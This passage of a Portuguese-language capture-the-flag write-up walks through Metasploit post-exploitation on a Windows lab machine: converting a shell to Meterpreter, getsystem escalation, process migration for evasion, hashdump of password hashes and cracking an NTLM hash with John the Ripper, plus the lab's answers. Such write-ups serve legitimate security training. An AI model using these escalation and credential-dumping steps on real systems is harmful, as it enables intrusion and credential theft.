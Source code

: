 4.  **Executando o Módulo de Conversão:**
    ```bash
    msf6 post(multi/manage/shell_to_meterpreter) > run
    ```
    * **Resultado:** Uma nova sessão Meterpreter foi criada.

5.  **Interagindo com a Sessão Meterpreter e Escalando Privilégios:**
    ```bash
    msf6 > sessions -i [ID_DA_NOVA_SESSAO_METERPRETER]
    meterpreter > getsystem
    ```
    O comando `getsystem` tenta várias técnicas para escalar para `NT AUTHORITY\SYSTEM`.
    Para confirmar:
    ```bash
    meterpreter > shell
    C:\Windows\system32> whoami
    nt authority\system
    C:\Windows\system32> exit 
    ```

6.  **Migrando o Processo (para estabilidade e evasão):**
    ```bash
    meterpreter > ps 
    # Identificar um processo estável rodando como NT AUTHORITY\SYSTEM (ex: spoolsv.exe, services.exe, ou outro PID específico da sua listagem)
    meterpreter > migrate [PID_DO_PROCESSO_ESCOLHIDO]
    ```
    * **Observação:** Esta etapa pode exigir algumas tentativas ou a escolha de diferentes processos.

**Task 4: Cracking (Quebrando Senhas)**

Com privilégios de SYSTEM, o próximo passo foi dumpar os hashes de senha.

1.  **Dump dos Hashes:**
    Dentro da sessão Meterpreter com privilégios de SYSTEM:
    ```bash
    meterpreter > hashdump
    ```
    * **Resultado Observado:** [Liste os hashes, incluindo o do usuário Jon. Ex: `Jon:500:aad3b435b51404eeaad3b435b51404ee:HASH_NTLM_DO_JON::: `]
    * **Pergunta:** Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
        * **Resposta:** `Jon`

2.  **Quebrando o Hash:**
    Copiei o hash NTLM do usuário Jon para um arquivo (ex: `hash_jon.txt`) na minha máquina atacante. Utilizei uma ferramenta como John the Ripper (ou Hashcat, ou um cracker online para NTLM) para quebrar o hash.
    *Exemplo com John:*
    ```bash
    john --format=NT hash_jon.txt 
    # (Pode ser necessário especificar uma wordlist com --wordlist=path/to/wordlist)
    john --show hash_jon.txt
    ```
    * **Pergunta:** Copy this password hash to a file and research how to crack it. What is the cracked password?
        * **Resposta:** `alqfna22`
